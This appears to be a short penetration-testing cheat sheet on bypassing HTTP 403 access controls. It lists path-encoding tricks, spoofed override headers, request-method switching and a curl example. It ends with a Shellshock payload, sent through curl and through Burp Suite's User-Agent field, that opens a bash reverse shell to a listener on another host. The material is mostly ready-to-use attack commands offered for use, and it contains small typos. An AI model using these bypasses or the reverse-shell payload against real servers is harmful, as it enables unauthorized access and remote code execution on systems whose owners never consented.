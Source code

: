 --- ---
<h2>How to bypass 403 Errors</h2>
**Technique number 1**
- Appending `{%2e} or {%2f} { **/*, /./}` after the first slash
	- https://www.domain/DB = 403  
	- https://www.domain/%2e/DB] =200  
	- https://www.domain/./DB] =200 

**Technique number 2**
- Adding headers to requests module.
	- Content-Length: 0  
	- X-rewrite-url  
	- X-Original-URL  
	- X-Custom-IP-Authorization  
	- X-Forwarded-For

**Technique number 3**
- Change the request method
	- GET → POST
	- GET → TRACE
	- GET → PUT
	- GET **→** OPTIONS 

**Technique number 4**
- Using Curl
	- curl -i -s -k -X $’GET’ -H $’Host: account.domain.com’ -H $’X-rewrite-url: admin/login’ $’https://account.domain.com/' 

**Technique number 5**
- Brute force sub directory from the 403 directory
   - Try using (wordlist/dirb/comon.txt)
   - Setup Netcat lisener
   - Inject parameters from Curl or Burp Suite
   - CURL ---> curl -A “() { :; }; /bin/bash -i > /dev/tcp/192.168.2.13/9000 0<&1 2>&1” http://192.168.2.18/cgi-bin/helloworld.cgi
   - Burp Suite ---> Change User-Agent: () { :; }; /bin/bash -i > /dev/tcp/192.168.2.13/9000 0<&1 2>&1
   - More info ---> https://hackbotone.com/shellshock-attack-on-a-remote-web-server-d9124f4a0af3